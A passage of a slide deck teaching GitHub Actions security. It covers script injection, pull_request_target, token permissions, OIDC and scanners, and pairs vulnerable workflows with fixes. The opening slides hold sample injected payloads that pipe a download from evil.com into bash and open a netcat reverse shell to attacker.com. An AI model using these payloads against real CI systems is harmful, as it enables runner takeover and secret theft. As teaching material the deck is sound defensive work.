  padding: 0.2rem;
}

.attack-box {
  background: #2D1B1B;
  border-radius: 12px;
  padding: 1rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.3);
  display: flex;
  flex-direction: column;
}

.attack-box h3 {
  margin-top: 0;
  margin-bottom: 0.7rem;
  color: #FFD93D;
  font-size: 1.2rem;
}

.danger-box {
  background: rgba(255, 255, 255, 0.1);
  border-radius: 12px;
  padding: 1rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.3);
  display: flex;
  flex-direction: column;
}

.danger-box h3 {
  margin-top: 0;
  margin-bottom: 0.72rem;
  color: #FFD93D;
  font-size: 1.2rem;
}

.attack-box pre {
  border: none !important;
}

.danger-box p,
.attack-box p {
  font-size: 0.75rem;
  margin: 0.5rem 0 0 0;
  line-height: 1.3;
  opacity: 0.9;
}

</style>

# 🔥 Script injection attack

<div class="problem-container">

<div class="attack-box">
<h3>💀 Malicious title</h3>

```bash
Hello"; curl evil.com/backdoor | bash; echo "
```

</div>

<div class="danger-box">
<h3>� What Happens</h3>

```bash
echo "Issue: Hello"; curl evil.com/backdoor | bash; echo ""
```
Commands executed on your runner!
</div>

<div class="attack-box">
<h3>💀 Malicious description</h3>

```bash
Test"; nc attacker.com 4444 -e /bin/bash; echo "
```

</div>

<div class="danger-box">
<h3>� What Happens</h3>

```bash
echo "Description: Test"; nc attacker.com 4444 -e /bin/bash; echo ""
```

Opens reverse shell to attacker!

</div>

</div>


---

<!--
_backgroundColor: #B91C1C
_color: white
-->


# Script injection


### 🔐 Secret theft

### 💉 Malicious injection

### 🏗️ Compromised infrastructure

---

<!--
_backgroundColor: #059669
_color: white
-->

<style scoped>


.code-container {
  display: flex;
  justify-content: center;
  align-items: center;
  height: 80%;
}

.code-section {
  width: 70%;
}

.code-section pre {
  border-radius: 12px;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.3);
  padding: 2rem;
  margin: 0;
  font-size: 0.8rem;
}
</style>

# ✅ The solution

<div class="code-container">
  <div class="code-section">

```yaml
name: Issue Logger

on:
  issues:
    types: [opened]

jobs:
  log-issue:
    runs-on: ubuntu-latest
    steps:
    - name: Log issue details
      env:                                              # ← NEW
        ISSUE_TITLE: ${{ github.event.issue.title }}    # ← NEW
        ISSUE_BODY: ${{ github.event.issue.body }}      # ← NEW  
      run: |
        echo "Issue: $ISSUE_TITLE"                      # ← CHANGED
        echo "Description: $ISSUE_BODY"                 # ← CHANGED
```

  </div>
</div>

---
<!--
_backgroundColor: #DC2626
_color: white
-->


<style scoped>
pre {
  border-radius: 12px;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.3);
  font-size: 0.7rem;
}
</style>

# 🤔 What can go wrong?

```yaml
name: Build PR
on:
  pull_request:
  pull_request_target:

jobs:
  build:
    if: ${{ startsWith(github.event_name, 'pull_request') }}  
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
      with:
        ref: ${{ github.event.pull_request.head.sha }}
        
    - name: Build
      env:
        GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}  
        API_KEY: ${{ secrets.API_KEY }} 
      run: echo "Building ${{ github.event.pull_request.base.ref }}"  
```

---
<!--
_backgroundColor: #DC2626
_color: white
-->

# 🤔 What can go wrong?
<style scoped>
pre {
  border-radius: 12px;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.3);
  font-size: 0.6rem;
}
</style>

```yaml
name: Build PR
on:
  pull_request:
  pull_request_target:  # ← DANGEROUS!

jobs:
  build:
    # Ineffective condition!
    if: ${{ startsWith(github.event_name, 'pull_request') }}  
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
      with:
        # untrusted code in trusted environment!
        ref: ${{ github.event.pull_request.head.sha }}
        
    - name: Build
      env:
        # Secrets exposed!
        GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}  
        API_KEY: ${{ secrets.API_KEY }} 
      # Injection!
      run: echo "Building ${{ github.event.pull_request.base.ref }}"  
```


---

<!--
_backgroundColor: #B91C1C
_color: white
-->


# <!-- fit --> Nx "s1ngularity" attack


### 🔐 Secret theft

### 👁️ Private source code exposed


---

<!--
_backgroundColor: #B91C1C
_color: white

-->

<style scoped>
.attack-container {
  display: grid;
  grid-template-columns: 2fr 3fr;
  gap: 2rem;
  height: 80%;
  align-items: center;
}

.attack-content {
  display: flex;
  flex-direction: column;
  gap: 1.5rem;
}

.attack-point {
  background: rgba(255, 255, 255, 0.15);
  border-radius: 12px;
  padding: 1.5rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
}

.attack-point p {
  margin: 0;
  font-size: 0.6rem;
  line-height: 3.22;
}

.attack-image {
  display: flex;
  justify-content: center;
  align-items: center;
}

.attack-image img {
  max-width: 100%;
  max-height: 100%;
  object-fit: contain;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
  border-radius: 12px;

}
</style>

# 🎯 Secrets and private sources

<div class="attack-container">
  <div class="attack-point">
      <p>🚀 1000s secrets leaked<p>
      <p>👥 480 users published private repositories</p>
      <p>🏷️ 500 repos from a company exposed</p>
  </div>

  
  <div class="attack-image">
    
  </div>
</div>


---


<!--
_backgroundColor: #DC2626
_color: white
-->

<style scoped>
.problem-explanation {
  display: grid;
  grid-template-columns: 1fr 1fr;
  gap: 2rem;
  height: 80%;
  align-items: start;
}

.danger-workflow {
  background: rgba(0, 0, 0, 0.3);
  border-radius: 12px;
  
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
}

.danger-workflow pre {
  border-radius: 8px;
  box-shadow: none;
  margin: 0;
  font-size: 0.75rem;
  background: rgba(0, 0, 0, 0.5);
}

.warning-box {
  background: rgba(255, 255, 255, 0.1);
  border-radius: 12px;
  padding: 1.5rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
}

.warning-box h3 {
  margin-top: 0;
  margin-bottom: 1rem;
  color: #FEF3C7;
  font-size: 1.3rem;
}

.warning-box p {
  margin: 0;
  font-size: 1rem;
  line-height: 1.5;
}

.highlight {
  padding: 0.2rem 0.4rem;
  border-radius: 4px;
  color: #000;
  font-weight: bold;
}
</style>

# 🔥 The `pull_request_target` problem

<div class="problem-explanation">
  <div class="danger-workflow">

```yaml
# DON'T DO THIS!
on: pull_request_target  # ← Runs in trusted context

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v3
      with:
        # ← Untrusted code!
        ref: ${{ github.event.pull_request.head.sha }} 
```

  </div>
  
  <div class="warning-box">
    <h3>⚠️ Critical Security Issue</h3>
    <p>You are giving <span class="highlight">write permissions and secrets access</span> to untrusted code. Any building step, script execution, or action call could be used to <span class="highlight">compromise the entire repository</span></p>
  </div>
</div>


---

<!--
_backgroundColor: #DC2626
_color: white
-->

<style scoped>
.problem-container {
  display: grid;
  grid-template-columns: 2fr 3fr;
  gap: 1rem;
  height: 80%;
  align-items: start;
}

.code {
  background: rgba(0, 0, 0, 0.3);
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
}

.code pre {
  border-radius: 8px;
  box-shadow: none;
  margin: 0;
  font-size: 0.7rem;
  background: rgba(0, 0, 0, 0.5);
}

.explanation {
  display: flex;
  flex-direction: column;
  gap: 1.5rem;
}

.danger-point {
  background: rgba(255, 255, 255, 0.1);
  border-radius: 12px;
  padding: 1.2rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
}

.danger-point h4 {
  margin-top: 0;
  margin-bottom: 0.8rem;
  color: #FEF3C7;
  font-size: 1.1rem;
}

.danger-point p {
  margin: 0;
  font-size: 0.9rem;
  line-height: 1.4;
}

.token-highlight {
  background: rgba(255, 255, 0, 0.3);
  padding: 0.2rem 0.4rem;
  border-radius: 4px;
  color: #000;
  font-weight: bold;
}
</style>

# 🔥 Implicit GitHub token problem

<div class="problem-container">
  <div class="code">

```yaml
name: Deploy Package

on: [push]

jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
    
    - name: Publish to registry
      env:
        GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
      run: |
        npm publish
        git tag v1.0.0
        git push --tags
```

  </div>
  
  <div class="explanation">
    <div class="danger-point">
      <h4>🔑 Implicit Broad Access</h4>
      <p>GitHub injects a short lived token into your workflow. Default permission depending on settings.</p>
    </div>
    <div class="danger-point">
      <h4>💀 What Can Go Wrong</h4>
      <p>Malicious code can modify your repository, create releases, delete branches, access secrets, and compromise your entire codebase.</p>
    </div>
  </div>
</div>


---

<!--
_backgroundColor: #059669
_color: white
-->

<style scoped>
.token-problem-container {
  display: grid;
  grid-template-columns: 2fr 3fr;
  gap: 1rem;
  height: 80%;
  align-items: start;
}

.secure-code {
  background: rgba(0, 0, 0, 0.3);
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
}

.secure-code pre {
  border-radius: 8px;
  box-shadow: none;
  margin: 0;
  font-size: 0.7rem;
  background: rgba(0, 0, 0, 0.5);
}

.solution-explanation {
  display: flex;
  flex-direction: column;
  gap: 1.5rem;
}

.solution-point {
  background: rgba(255, 255, 255, 0.15);
  border-radius: 12px;
  padding: 1.2rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
}

.solution-point h4 {
  margin-top: 0;
  margin-bottom: 0.8rem;
  color: #F0FDF4;
  font-size: 1.1rem;
}

.solution-point p {
  margin: 0;
  font-size: 0.9rem;
  line-height: 1.4;
}

.token-highlight {
  background: rgba(16, 185, 129, 0.3);
  padding: 0.2rem 0.4rem;
  border-radius: 4px;
  color: #000;
  font-weight: bold;
}
</style>

# ✅ Explicit GitHub token permissions

<div class="token-problem-container">
  <div class="secure-code">

```yaml
name: Deploy Package

on: [push]

permissions: {} # no permissions by default
jobs:
  deploy:
    runs-on: ubuntu-latest
    permissions:
      contents: read # read-only access to repository
    steps:
    - uses: actions/checkout@v4
    
    - name: Publish to registry
      env:
        GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
      run: |
        npm publish
        git tag v1.0.0
        git push --tags # fails - no write permissions!
```

  </div>
  
  <div class="solution-explanation">
    <div class="solution-point">
      <h4>🛡️ Principle of Least Privilege</h4>
      <p>Default to <span class="token-highlight">no permissions</span> and grant minimal required access on job level.</p>
    </div>
    <div class="solution-point">
      <h4>✅ Better Security</h4>
      <p>Failed operations are better than compromised repositories. Add specific permissions only when needed.</p>
    </div>
  </div>
</div>


---

<!--
_backgroundColor: #DC2626
_color: white
-->

<style scoped>
.problem-container {
  display: grid;
  grid-template-columns: 6fr 8fr;
  gap: 1.4rem;
  height: 80%;
  align-items: start;
}

.image-container {
  background: rgba(255, 255, 255, 0.1);
  border-radius: 12px;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
  display: flex;
  align-items: center;
  justify-content: center;
}

.img {
  max-width: 100%;
  max-height: 100%;
  object-fit: contain;
  border-radius: 12px;
  box-shadow: 0 8px 32px rgba(0, 0, 0, 0.3);
}

.code {
  background: rgba(0, 0, 0, 0.3);
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
}

.code pre {
  border-radius: 8px;
  box-shadow: none;
  margin: 0;
  font-size: 0.7rem;
  background: rgba(0, 0, 0, 0.5);
}

.explanation {
  display: flex;
  flex-direction: column;
  gap: 1.5rem;
}

.danger-point {
  background: rgba(255, 255, 255, 0.1);
  border-radius: 12px;
  padding: 0.5rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
}

.danger-point h4 {
  margin-top: 0.5rem;
  margin-bottom: 0.5rem;
  color: #FEF3C7;
  font-size: 1.0rem;
  line-height: 1.5rem;
}


.token-highlight {
  background: rgba(255, 255, 0, 0.3);
  padding: 0.2rem 0.4rem;
  border-radius: 4px;
  color: #000;
  font-weight: bold;
}
</style>

# 🔥 The problem with long-lived secrets

<div class="problem-container">
  
  <div class="image-container">
    
  </div>

  <div class="explanation">
    <div class="danger-point">
      <h4>📋 Rotate to expire</h4>
      <h4>💥 High Blast Radius</h4>
    </div>
    <div class="code">

```yaml
jobs:
  deploy-with-keys:
    runs-on: ubuntu-latest
    environment: demo

    steps:
      - name: Checkout code
        uses: actions/checkout@...

      - name: Set up AWS
        uses: aws-actions/configure-aws-credentials@...
        with:
          aws-access-key-id: ${{ secrets.AWS_ACCESS_KEY_ID }}
          aws-secret-access-key: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
```
  </div>
  </div>

</div>


---

<!--
_backgroundColor: #059669
_color: white
-->


<style scoped>
.slide-container {
  display: flex;
  gap: 1rem;
  height: 80%;
}

.left-section {
  flex: 0 0 35%;
  display: flex;
  flex-direction: column;
  gap: 1rem;
}

.image-container {
  flex: 1;
  background: rgba(255, 255, 255, 0.1);
  border-radius: 12px;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
  display: flex;
  align-items: center;
  justify-content: center;
}

.img {
  max-width: 100%;
  max-height: 100%;
  object-fit: contain;
  border-radius: 12px;
  box-shadow: 0 8px 32px rgba(0, 0, 0, 0.3);
}

.tech-container {
  flex: 0 0 auto;
  background: rgba(255, 255, 255, 0.15);
  border-radius: 12px;
  padding: 0.5rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
}

.tech-container h4 {
  margin: 0 0 0.3rem 0;
  color: #F0FDF4;
  font-size: 0.7rem;
}

.right-section {
  flex: 1;
  display: flex;
  flex-direction: column;
  gap: 1rem;
}

.code {
  flex: 1;
  background: rgba(0, 0, 0, 0.3);
  border-radius: 12px;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
}

.code pre {
  border-radius: 8px;
  box-shadow: none;
  margin: 0;
  font-size: 0.7rem;
  background: rgba(0, 0, 0, 0.5);
}
</style>


# ✅ OIDC short-lived secrets

<div class="slide-container">
  <div class="left-section">
    <div class="image-container">
      
    </div>
    <div class="tech-container">
      <h4>⏰ Short-lived tokens)</h4>
      <h4>🔄 Automatic rotation per run</h4>
    </div>
  </div>
  
  <div class="right-section">
    <div class="code">

```yaml
jobs:
  deploy-with-oidc:
    runs-on: ubuntu-latest
    environment: demo
    permissions:
      id-token: write

    steps:
      - name: Configure AWS with OIDC
        uses: aws-actions/configure-aws-credentials@...
        with:
          role-to-assume: arn:aws:iam::123:role/minimal-access-role
```

  </div>
  <div class="code">

```json
// AWS Trust Policy

"Statement": [{
  ...
  "Principal": {
      "Federated": "<arn:aws:iam::123:oidc-provider/token.actions.githubusercontent.com>"
  },
  "Action": "sts:AssumeRoleWithWebIdentity",
  "Condition": {
      "StringEquals": {
          "token.actions.githubusercontent.com:sub": "repo:my-org/my-repo:more-conditions"],
          "token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
  ...
```
  </div>
  </div>
</div>

---

# ✅ Keep secrets safe

<!--
_backgroundColor: #059669
_color: white
-->

<style scoped>
.secrets-container {
  display: grid;
  grid-template-columns: 1fr 1fr;
  gap: 2rem;
  height: 85%;
  padding: 0rem;
}

.left-column, .right-column {
  display: flex;
  flex-direction: column;
  gap: 1rem;
}

.text-box {
  background: rgba(255, 255, 255, 0.15);
  border-radius: 12px;
  padding: 0.5rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
  flex: 0 0 auto;
}

.text-box h3 {
  margin: 0 0 0.8rem 0;
  color: #F0FDF4;
  font-size: 1.1rem;
}

.text-box ul {
  margin: 0;
  padding-left: 1.2rem;
  font-size: 0.6rem;
  line-height: 1.4;
  color: #D1FAE5;
}

.text-box li {
  margin-bottom: 0.3rem;
}

.code-block {
  background: rgba(0, 0, 0, 0.6);
  border-radius: 12px;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
  flex: 1;
  padding: 1rem;
}

.code-block pre {
  border-radius: 8px;
  box-shadow: none;
  margin: 0.5rem 0;
  font-size: 0.6rem;
  background: rgba(0, 0, 0, 0.4);
  padding: 1rem;
  overflow: auto;
}

.example-label {
  font-size: 0.5rem;
  font-weight: bold;
  margin: 0;
  padding: 0.2rem 0.4rem;
  border-radius: 4px;
  display: inline-block;
}

.code-example {
  position: relative;
  margin: 0;
}

.code-example p.example-label {
  position: absolute;
  top: -1.8rem !important;
  right: 0.15rem !important;
  z-index: 10;
  font-size: 0.45rem;
  font-weight: bold;
  margin: 0;
  padding: 0.3rem 0.6rem;
  border-radius: 4px;
  box-shadow: 0 3px 8px rgba(0, 0, 0, 0.4);
  transform: rotate(12deg);
}

.code-example pre {
  margin: 0;
  position: relative;
}

.good-label {
  background: #02DA21;
  color: white;
}

.bad-label {
  background: #F85569;
  color: white;
}
</style>

<div class="secrets-container">
  <div class="left-column">
    <div class="text-box">
      <h3>🔒 Environment as Boundary</h3>
      <ul>
        <li>Environments create boundaries for secrets</li>
        <li>Jobs only access assigned environment secrets</li>
        <li>Protection rules (reviewers, branches, timers)</li>
        <li>Principle of least privilege</li>
      </ul>
    </div>

```yaml
jobs:
  deploy-production:
    environment: production
    runs-on: ubuntu-latest
    steps:
    - name: checkout code
      uses: actions/checkout@v5

    - name: Deploy to production
      env:
        API_KEY: ${{ secrets.PROD_API_KEY }}            
      run: deploy.sh production
```

  </div>
  
  <div class="right-column">
    <div class="text-box">
      <h3>🎯 OIDC Best Practices</h3>
      <ul>
        <li>Keep jobs minimal and focused</li>
        <li>Avoid third-party actions with OIDC jobs</li>
        <li>Actions inherit GITHUB_TOKEN permissions</li>
        <li>Strict trust relationships - no wildcards</li>
      </ul>
    </div>
    <div class="code-example">
      <p class="example-label bad-label">❌ WRONG</p>

```json
"Condition": {
  "StringEquals": {
    "...:sub": "repo:my-org/project-*",                        
  }
}
```
</div>
    <div class="code-example">
      <p class="example-label good-label">✅ GOOD</p>

```json
"Condition": {
  "StringEquals": {
    "...:sub": "repo:my-rog/project-x:environment:production",
  }
}
```
  </div>

  </div>
</div>

---


<!--
_backgroundColor: #4A5568
_color: white
-->

<style scoped>
.recap-container {
  display: flex;
  flex-direction: column;
  gap: 1rem;
  padding: 0.1rem;
}

.recap-intro {
  text-align: center;
  margin-bottom: 0rem;
}

.recap-intro p {
  font-size: 0.8rem;
  color: #E2E8F0;
  margin: 0;
  font-style: italic;
}

.patterns-grid {
  display: grid;
  grid-template-columns: repeat(2, 1fr);
  gap: 1.0rem;
  flex: 1;
}

.pattern-card {
  padding: 0.8rem;
  display: flex;
  gap: 1.0rem;
  align-items: flex-start;
}

.pattern-emoji {
  font-size: 1.8rem;
  flex-shrink: 0;
}

.pattern-content {
  flex: 1;
  display: flex;
  flex-direction: column;
  gap: 0.5rem;
}

.pattern-title {
  font-size: 0.8rem;
  font-weight: bold;
  color: #F7FAFC;
  margin: 0;
}

.pattern-problem {
  font-size: 0.65rem;
  color: #FEB2B2;
  margin: 0;
  line-height: 1.2;
}

.pattern-solution {
  font-size: 0.65rem;
  color: #9AE6B4;
  margin: 0;
  line-height: 1.2;
}

.bottom-card {
  grid-column: 1 / -1;
  background: rgba(255, 255, 255, 0.15);
}
</style>

# 🔄 Security patterns for GitHub Actions

<div class="recap-container">
  <div class="recap-intro">
    <p><em>We've explored common security risks and their solutions</em></p>
  </div>
  
  <div class="patterns-grid">
    <div class="pattern-card card">
      <span class="pattern-emoji">📦</span>
      <div class="pattern-content">
        <h3 class="pattern-title">Third-Party Actions</h3>
        <p class="pattern-problem">❌ Floating tags can be hijacked</p>
        <p class="pattern-solution">✅ Pin to SHA + use Dependabot</p>
      </div>
    </div>
    <div class="pattern-card card">
      <span class="pattern-emoji">💉</span>
      <div class="pattern-content">
        <h3 class="pattern-title">Script Injection</h3>
        <p class="pattern-problem">❌ User input directly in run commands</p>
        <p class="pattern-solution">✅ Use environment variables</p>
      </div>
    </div>
    <div class="pattern-card card">
      <span class="pattern-emoji">🎯</span>
      <div class="pattern-content">
        <h3 class="pattern-title">Dangerous triggers</h3>
        <p class="pattern-problem">❌ Untrusted code + write permissions</p>
        <p class="pattern-solution">✅ Extreme caution with non controlled triggers</p>
      </div>
    </div>
    <div class="pattern-card card">
      <span class="pattern-emoji">🔑</span>
      <div class="pattern-content">
        <h3 class="pattern-title">GitHub Token and Secrets</h3>
        <p class="pattern-problem">❌ Avoid long lived secrets</p>
        <p class="pattern-solution">✅ Explicit least-privilege permissions</p>
      </div>
    </div>
  </div>
</div>

---

<!--
_backgroundColor: #1A202C
_color: white
-->

<style scoped>
.config-container {
  display: grid;
  grid-template-columns: 1fr 1fr;
  gap: 2rem;
  height: 85%;
  align-items: start;
}

.image-section {
  display: flex;
  justify-content: center;
  align-items: flex-start;
  height: 100%;
}

.placeholder-image {
  max-width: 100%;
  max-height: 100%;
  object-fit: contain;
  border-radius: 12px;
  box-shadow: 0 8px 32px rgba(0, 0, 0, 0.3);
}

.config-content {
  display: flex;
  flex-direction: column;
  gap: 1.2rem;
}

.config-item {
  background: rgba(255, 255, 255, 0.1);
  border-radius: 12px;
  padding: 0.8rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.3);
  display: flex;
  align-items: center;
  gap: 0.4rem;
  transition: transform 0.2s ease;
}


.config-emoji {
  font-size: 1.0rem;
  flex-shrink: 0;
}

.config-text {
  font-size: 0.7rem;
  color: #F7FAFC;
  margin: 0;
}

.config-highlight {
  color: #68D391;
  font-weight: bold;
}
</style>

# 🛡️ Protect by configuration

<div class="config-container">
  <div class="image-section">
    
  </div>

  <div class="config-content">
    <div class="config-item">
      <span class="config-emoji">✅</span>
      <p class="config-text"><span class="config-highlight">Allow list</span> for trusted actions</p>
    </div>
    <div class="config-item">
      <span class="config-emoji">📌</span>
      <p class="config-text"><span class="config-highlight">Enforce SHA pinned</span> actions</p>
    </div>
    <div class="config-item">
      <span class="config-emoji">🔐</span>
      <p class="config-text"><span class="config-highlight">Drop GITHUB_TOKEN</span> to read-only permissions</p>
    </div>
    <div class="config-item">
      <span class="config-emoji">🚫</span>
      <p class="config-text"><span class="config-highlight">Be cautious</span> with write tokens in a PR</p>
    </div>
  </div>
</div>

---

<!--
_backgroundColor: #1A202C
_color: white
-->

<style scoped>
.security-container {
  display: grid;
  grid-template-columns: 1fr 1fr;
  gap: 2rem;
  height: 85%;
  align-items: start;
}

.image-section {
  display: flex;
  justify-content: center;
  align-items: flex-start;
  height: 100%;
}

.placeholder-image {
  max-width: 100%;
  max-height: 100%;
  object-fit: contain;
  border-radius: 12px;
  box-shadow: 0 8px 32px rgba(0, 0, 0, 0.3);
}

.security-content {
  display: flex;
  flex-direction: column;
  gap: 1.2rem;
}

.security-item {
  background: rgba(255, 255, 255, 0.1);
  border-radius: 12px;
  padding: 0.8rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.3);
  display: flex;
  align-items: center;
  gap: 1rem;
  transition: transform 0.2s ease;
}


.security-emoji {
  font-size: 1.4rem;
  flex-shrink: 0;
}

.security-text {
  font-size: 1.0rem;
  line-height: 1.5;
  color: #F7FAFC;
  margin: 0;
}

.security-highlight {
  color: #68D391;
  font-weight: bold;
}
</style>

# 🔍 GitHub Advanced Security

<div class="security-container">
  <div class="image-section">
    <div class="placeholder-image">
      
    </div>
  </div>
  <div class="security-content">
    <div class="security-item">
      <span class="security-emoji">🛡️</span>
      <p class="security-text"><span class="security-highlight">Scan Actions with</span> with GHAS</p>
    </div>
    <div class="security-item">
      <span class="security-emoji">👀</span>
      <p class="security-text"><span class="security-highlight">Review GitHub Actions</span> do not blindly trust</p>
    </div>
    <div class="security-item">
      <span class="security-emoji">🔓</span>
      <p class="security-text"><span class="security-highlight">Unlock GHAS power</span> for secrets & multi-language protection</p>
    </div>
  </div>
</div>


---

<!--
_backgroundColor: #059669
_color: white
-->

<style scoped>
.opensource-container {
  display: flex;
  flex-direction: column;
  gap: 1rem;
  height: 85%;
  padding: 0.8rem;
}

.intro-text {
  text-align: center;
  background: rgba(255, 255, 255, 0.15);
  border-radius: 12px;
  padding: 0.5rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
}

.intro-text p {
  margin: 0;
  font-size: 0.8rem;
  color: #F0FDF4;
  font-style: italic;
}

.tools-grid {
  display: grid;
  grid-template-columns: repeat(3, 1fr);
  gap: 1rem;
  flex: 1;
}

.tool-card {
  padding: 1rem;
  background: rgba(34, 197, 94, 0.2);
  border-radius: 12px;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.4);
  display: flex;
  flex-direction: column;
  gap: 0.6rem;
  align-items: center;
  text-align: center;
  border: 1px solid rgba(34, 197, 94, 0.3);
}

.tool-emoji {
  font-size: 1.8rem;
  margin-bottom: 0.2rem;
}

.tool-name {
  font-size: 0.9rem;
  font-weight: bold;
  color: #ECFDF5;
  margin: 0 0 0.3rem 0;
}

.tool-description {
  font-size: 0.65rem;
  color: #D1FAE5;
  margin: 0;
  line-height: 1.3;
  flex-grow: 1;
}

.tool-focus {
  font-size: 0.6rem;
  color: #065F46;
  font-weight: bold;
  margin: 0;
  padding: 0.2rem 0.6rem;
  background: rgba(34, 197, 94, 0.4);
  border-radius: 6px;
}

.tool-focus-security {
  font-size: 0.6rem;
  color: #FEF3C7;
  font-weight: bold;
  margin: 0;
  padding: 0.2rem 0.6rem;
  background: rgba(180, 83, 9, 0.9);
  border-radius: 6px;
  box-shadow: 0 2px 4px rgba(0, 0, 0, 0.3);
}

.tool-focus-general {
  font-size: 0.6rem;
  color: #E5E7EB;
  font-weight: bold;
  margin: 0;
  padding: 0.2rem 0.6rem;
  background: rgba(107, 114, 128, 0.6);
  border-radius: 6px;
}

.disclaimer-sticker {
  position: absolute;
  top: 40px;
  right: 20px;
  background: #EF4444;
  color: white;
  padding: 0.5rem 1rem;
  border-radius: 12px;
  font-size: 0.55rem;
  font-weight: bold;
  box-shadow: 0 4px 12px rgba(0, 0, 0, 0.4);
  transform: rotate(15deg);
  z-index: 10;
  border: 2px solid #DC2626;
  text-align: center;
  line-height: 1.2;
}
</style>

# 🔓 Open source static analyzers for GitHub Actions


<div class="opensource-container">
  <div class="intro-text">
    <p><em>Community-driven tools to enhance your GitHub Actions security</em></p>
  </div>
  
  <div class="tools-grid">
    <div class="tool-card">
      <span class="tool-emoji">⚡</span>
      <h3 class="tool-name">Zizmor</h3>
      <p class="tool-description">A dedicated linter for GitHub Actions that provides comprehensive security rules and integrates seamlessly into CI/CD workflows.</p>
      <p class="tool-focus-security">Security Focus</p>
    </div>
    <div class="tool-card">
      <span class="tool-emoji">🛡️</span>
      <h3 class="tool-name">Checkov</h3>
      <p class="tool-description">An Infrastructure as Code (IaC) security scanner that analyzes cloud infrastructure configurations to identify and fix security policy violations.</p>
      <p class="tool-focus-security">IaC Security</p>
    </div>
    <div class="tool-card">
      <span class="tool-emoji">🔍</span>
      <h3 class="tool-name">Action Lint</h3>
      <p class="tool-description">A general-purpose linter for GitHub Actions workflows focused on syntax validation and ensuring best practices are followed.</p>
      <p class="tool-focus-general">Syntax & Quality</p>
    </div>
  </div>
</div>


---

<!--
_backgroundColor: #1A202C
_color: white
-->

<style scoped>
.zizmor-container {
  display: grid;
  grid-template-columns: 1fr 1fr;
  gap: 2rem;
  height: 85%;
  align-items: start;
}

.image-section {
  display: flex;
  justify-content: center;
  align-items: flex-start;
  height: 100%;
}

.placeholder-image {
  max-width: 100%;
  max-height: 100%;
  object-fit: contain;
  border-radius: 12px;
  box-shadow: 0 8px 32px rgba(0, 0, 0, 0.3);
}

.zizmor-content {
  display: flex;
  flex-direction: column;
  gap: 1.2rem;
}

.zizmor-item {
  background: rgba(255, 255, 255, 0.1);
  border-radius: 12px;
  padding: 0.8rem;
  box-shadow: 0 4px 20px rgba(0, 0, 0, 0.3);
  display: flex;
  align-items: center;
  gap: 1rem;
}

.zizmor-emoji {
  font-size: 1.4rem;
  flex-shrink: 0;
}

.zizmor-text {
  font-size: 0.7em;
  line-height: 1.0;
  color: #F7FAFC;
  margin: 0;
}

.zizmor-highlight {
  color: #FCD34D;
  font-weight: bold;
}
</style>

# 🔧 Zizmor static analysis for GitHub Actions

<div class="zizmor-container">
  <div class="image-section">
    <div class="placeholder-image">
      
    </div>
  </div>
  
  <div class="zizmor-content">
    <div class="zizmor-item">
      <span class="zizmor-emoji">📋</span>
      <p class="zizmor-text"><span class="zizmor-highlight">Extensive rule set</span> for comprehensive scanning</p>
    </div>
    <div class="zizmor-item">
      <span class="zizmor-emoji">⚙️</span>
      <p class="zizmor-text"><span class="zizmor-highlight">Highly configurable</span> to fit your needs</p>
    </div>
    <div class="zizmor-item">
      <span class="zizmor-emoji">🔗</span>
      <p class="zizmor-text"><span class="zizmor-highlight">Integrates with GHAS</span> seamlessly</p>
    </div>
    <div class="zizmor-item">
      <span class="zizmor-emoji">🛠️</span>
      <p class="zizmor-text"><span class="zizmor-highlight">Use with CLI, IDE, pre-commit or Actions</span></p>
    </div>
  </div>
</div>


---

<!--
_backgroundColor: #4A5568
_color: white
-->

<style scoped>
.note-container {
  display: flex;
  justify-content: center;
  align-items: center;
  height: 85%;
}

.image-section {
  display: flex;
  justify-content: center;
  align-items: flex-start;
  height: 100%;
}

.placeholder-image {
  max-width: 100%;
  max-height: 100%;
  object-fit: contain;
  border-radius: 12px;
  box-shadow: 0 8px 32px rgba(0, 0, 0, 0.3);
}

.note-box {
  background: rgba(255, 255, 255, 0.1);
  border-radius: 16px;
  padding: 1.0rem;
  box-shadow: 0 8px 32px rgba(0, 0, 0, 0.3);
  width: 80%;
  max-width: 900px;
}

.note-list {
  list-style: none;
  padding: 0;
  margin: 0;
}

.note-item {
  font-size: 0.7rem;
  line-height: 1.5;
  color: #F7FAFC;
  margin-bottom: 0.7rem;
  display: flex;
  align-items: center;
  gap: 0.8rem;
}

.note-emoji {
  font-size: 1.2rem;
  flex-shrink: 0;
}

.note-highlight {
  color: #FCD34D;
  font-weight: bold;
}
</style>

# <!-- fit -->📝 Topics not covered in detail

